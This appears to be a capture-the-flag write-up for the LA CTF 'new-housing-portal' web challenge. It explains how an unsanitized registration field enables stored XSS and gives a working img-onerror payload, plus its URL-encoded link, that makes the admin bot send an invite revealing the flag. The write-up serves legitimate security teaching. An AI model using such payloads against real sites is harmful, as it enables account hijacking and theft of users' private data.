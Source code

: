 ## Description:

**After that old portal, we decided to make a new one that is ultra secure and not based off any real housing sites. Can you make Samy tell you his deepest darkest secret?
Hint - You can send a link that the admin bot will visit as samy.
Hint - Come watch the real Samy's talk if you are stuck!
Site - new-housing-portal.chall.lac.tf
Admin Bot - https://admin-bot.lac.tf/new-housing-portal**

**There was a source code provided with the chall**

## Walkthrough:
**First, let's access the main page of the website.**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/562b27fc-267a-4bb0-9360-dd340f64812e)

**So, there are a lot of functions here. Let's interact more with the web app.**

**After some time spent interacting with the web app, I noticed two other functions: "find" and "invite." Let's take a look at the source code to gain a deeper understanding.**

**Initially, the user data was stored as a map.**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/a930a03e-e701-4879-ad67-7d7abe5d89bd)

**There is a user called Samy who has a flag in his data. How can we retrieve the flag?**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/f6fbd19e-4251-4e6a-837d-ed8c268c2c12)

**There is a function called /finder that takes the input and only trims it. It then searches the map for the name and sends an invite with the sender's information, along with the deepestDarkestSecret -> flag in Samy's data.**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/cf0267c4-8bd9-45aa-942a-9672f8b30166)

**so we need smay to send an invite to us to get the flag but how**

**There is a route called /register that takes the user input and puts it in the map without any validation or sanitization.**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/bd07474a-3c8b-4ac0-8c10-07c14b1d4a

**We could exploit the lack of validation and sanitization in the /register route by registering with an input that contains JavaScript code to send an invite to ahmed2 (my username). Then, we could use the /finder route to search for the JavaScript code and send the link to Samy. When Samy clicks on the link, the JavaScript code would execute in his browser, inviting you and potentially allowing you to retrieve the flag.**

**And this was right i used this script 
```<img src="x" onerror='fetch("https://new-housing-portal.chall.lac.tf/finder", {method: "POST", mode: "no-cors", headers: {"Content-Type": "application/x-www-form-urlencoded"}, body:"username=ahmed2"});'>``` as name and send the link like this https://new-housing-portal.chall.lac.tf/finder/?q=%3Cimg%20src%3D%22x%22%20onerror%3D%27fetch(%22https%3A%2F%2Fnew-housing-portal.chall.lac.tf%2Ffinder%22%2C%20%7Bmethod%3A%20%22POST%22%2C%20mode%3A%20%22no-cors%22%2C%20headers%3A%20%7B%22Content-Type%22%3A%20%22application%2Fx-www-form-urlencoded%22%7D%2C%20body%3A%22username%3Dahmed2%22%7D)%3B%27%3E to samy and i got the invite :D and the flag**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/df1008d4-4a3c-4c7c-8933-378adc157305)

